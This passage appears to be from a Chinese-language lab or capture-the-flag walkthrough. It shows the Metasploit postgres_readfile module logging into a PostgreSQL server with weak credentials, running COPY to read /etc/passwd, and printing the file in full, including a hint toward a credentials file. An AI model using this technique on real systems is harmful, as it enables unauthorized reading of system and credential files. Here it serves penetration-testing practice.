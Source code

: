 postgres_readfile 模块，在为 PostgreSQL 服务器提供有效凭据时，将读取并显示您在服务器上选择的文件。

```
msf6 auxiliary(scanner/postgres/postgres_hashdump) > use auxiliary/admin/postgres/postgres_readfile
msf6 auxiliary(admin/postgres/postgres_readfile) > show options

Module options (auxiliary/admin/postgres/postgres_readfile):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DATABASE  template1        yes       The database to authenticate against
   PASSWORD  postgres         no        The password for the specified username. Leave blank for a random password.
   RFILE     /etc/passwd      yes       The remote file
   RHOSTS    10.10.205.125    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     5432             yes       The target port
   USERNAME  postgres         yes       The username to authenticate as
   VERBOSE   false            no        Enable verbose output


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/postgres/postgres_readfile) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(admin/postgres/postgres_readfile) > run
[*] Running module against 10.10.205.125

Query Text: 'CREATE TEMP TABLE lsZDgg (INPUT TEXT);
      COPY lsZDgg FROM '/etc/passwd';
      SELECT * FROM lsZDgg'
=====================================================================================================================

    input
    -----
    #/home/dark/credentials.txt
    _apt:x:105:65534::/nonexistent:/bin/false
    alison:x:1000:1000:Poster,,,:/home/alison:/bin/bash
    backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    dark:x:1001:1001::/home/dark:
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
    irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
    list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    messagebus:x:106:110::/var/run/dbus:/bin/false
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
    postgres:x:109:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
    proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
    root:x:0:0:root:/root:/bin/bash
    sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    syslog:x:104:108::/home/syslog:/bin/false
    systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
    systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
    systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
    systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
```